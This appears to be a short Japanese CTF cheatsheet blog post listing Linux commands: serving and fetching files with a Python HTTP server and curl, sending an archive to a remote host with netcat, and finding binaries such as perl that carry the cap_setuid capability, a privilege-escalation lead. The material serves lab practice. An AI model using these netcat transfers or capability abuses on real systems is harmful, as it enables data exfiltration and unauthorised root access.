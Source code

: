 ```yaml
---
layout: post
title: "linux_command"
published : true
tags: CTF Common cheatsheet linux 
---
```

## curl
### 送信側(待受)
```sh
python3 -m http.server 8888
```
### 受信側
```sh
curl 10.10.14.14:8888/src.file -o dst.file
```
## nc
### 受信側(待受)
```sh
nc -lvnp 9999 > some-file-name.tar.gz
```
### 送信側
```sh
nc 10.11.42.116 9999 < ff.tar.gz
```
## Capabilityを調べる
```sh
david@nunchucks:/opt$ which perl
/usr/bin/perl
david@nunchucks:/opt$ getcap /usr/bin/perl
/usr/bin/perl = cap_setuid+ep
```
